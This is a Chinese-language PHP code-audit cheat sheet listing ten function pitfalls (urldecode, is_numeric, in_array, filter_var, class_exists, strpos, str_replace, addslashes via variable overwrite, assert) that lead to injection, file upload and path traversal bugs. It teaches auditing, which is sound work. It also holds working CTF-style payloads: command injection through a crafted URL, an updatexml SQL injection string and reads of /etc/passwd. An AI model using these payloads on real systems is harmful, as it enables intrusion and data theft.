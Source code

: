 ## **参数处理函数缺陷**
#### **1、urldecode — 解码已编码的 URL 字符串**
```
语法：urldecode( string $str) : string
解码给出的已编码字符串中的任何 %##。 加号（'+'）被解码成一个空格字符。

下面列举了一个关于urldecode()引发SQL注入的例子（具体漏洞编号没找到）
是以前Discuz X1.5的一个漏洞
foreach($_POST as $k => $v) {
$value = urldecode($v);
$this->setParameter($k, $value);
}

单引号被 urlencode 两次以后是 %2527，然后 POST，PHP 内部在生成全局变量 $_POST 的时候会先 urldecode，得到 %27，
然后 PHP 会检查 Magic Quotes 的设置，但是无论是否开启 Magic Quotes，
%27 都不会被转义，因为这时根本没有单引号。但是这时如果在PHP中加上 urldecode，%27就变成单引号了
```

^
#### **2、rawurldecode — 对已编码的 URL 字符串进行解码**
```
语法 rawurldecode( string $str) : string
返回字符串，此字符串中百分号（%）后跟两位十六进制数的序列都将被替换成原义字符。
这个就不细讲了，和urldecode差不多。
```

^
#### **3、is_numeric**
```
bool is_numeric ( mixed $var )
如果 var 是数字和数字字符串则返回 TRUE，否则返回 FALSE。
仅用is_numeric判断而不用intval转换就有可能插入16进制的字符串到数据库，进而可能导致sql二次注入。
```


^
#### **4、in_array()没有true**
用in_array()做白名单，但是第三个参数没有用true。
```
例如文件名为 7shell.php 。
因为PHP在使用 in_array()函数判断时，
会将 7shell.php 强制转换成数字7，而数字7在 range(1,24)数组中，
最终绕过 in_array() 函数判断，导致任意文件上传漏洞。
sql注入等。
```


^
#### **5、filter_var过滤url格式**
```
$url = $_GET['url'];
if(isset($url) && filter_var($url, FILTER_VALIDATE_URL)){
    $site_info = parse_url($url);
    if(preg_match('/sec-redclub.com$/',$site_info['host'])){
        exec('curl "'.$site_info['host'].'"', $result);
```
这里用了 **filter_var** 函数来过滤变量，且用了 **FILTER_VALIDATE_URL** 过滤器来判断是否是一个合法的url。并且满足 **$site\_info\['host']** 的值以 **sec-redclub.com** 结尾
payload
```

?url=demo://%22;ls;%23;sec-redclub.com:80/
?url=demo://%22;cat%20f1agi3hEre.php;%23;sec-redclub.com:80/
```


^
#### **6、class_exists()任意文件读取**
**class_exists()** 函数就会自动调用本程序中的 **__autoload** 函数，这题的文件包含漏洞就出现在这个地方。攻击者可以使用 **路径穿越** 来包含任意文件，当然使用路径穿越符号的前提是 **PHP5~5.3(包含5.3版本)版本** 之间才可以。例如类名为： **../../../../etc/passwd** 的查找，将查看passwd文件。

^
#### **7、strpos()函数绕过**
strpos()函数返回查找到的子字符串的下标
如果字符串开头就是我们要搜索的目标，则返回下标 0 ；如果搜索不到，则返回 false
```
if(!strpos($pass,'>'))
代码原意是$pass中不能>字符，
但是如果>在第一个位置0，取反!后就为true则绕过if
```



^
#### **8、str_replace替换做过滤可能的缺陷**
```
这里看似过滤../防止目录穿越
str_replace('../','',$language)；
```
程序仅仅只是将 **../** 字符替换成空，这并不能阻止攻击者进行攻击。例如攻击者使用payload：**....//** 或者 **..././** ，在经过程序的 **str_replace** 函数处理后，都会变成 **../**


^
#### **9、变量覆盖逃逸addslashes**
```
if(isset($_POST['msg']) && $_POST['msg'] !==''){
    $msg = addslashes($_POST['msg']);
    $msg = replace_bad_word(convert($msg));
    $sql = "INSERT INTO users VALUES($id,'".$msg."')";
    $result = $conn->query($sql);
    if($conn->error) die($conn->error);
}

function replace_bad_word($str){
    global $limit_words;
    foreach ($limit_words as $old => $new) {
        strlen($old) > 2 && $str = str_replace($old,trim($new),$str);
    }
    return $str;
}

function convert($str){
    return htmlentities($str);
}

$limit_words = array('造反' => '造**', '法hh' => '法**');

foreach (array('_GET','_POST') as $method) {
    foreach ($$method as $key => $value) {
        $$key = $value;
    }
}
```
```
这里，我们便可以通过变量覆盖 **$limit_words** 数组，来逃逸单引号，
因为在 **index.php** 文件中使用了 **addslashes** 函数。

msg=1%00' and updatexml(1,concat(0x7e,(select * from flag),0x7e),1))#&limit_words[\0\]=
```


^
#### **10、程序在过滤后没有退出，程序还能执行**
```
error_log（"Hacking attempt.");
header（'Location:/error/');

assert（"(int)$pi ==3")
```
没有使用die ，exit等函数，assert还能执行，$pi直接代码执行。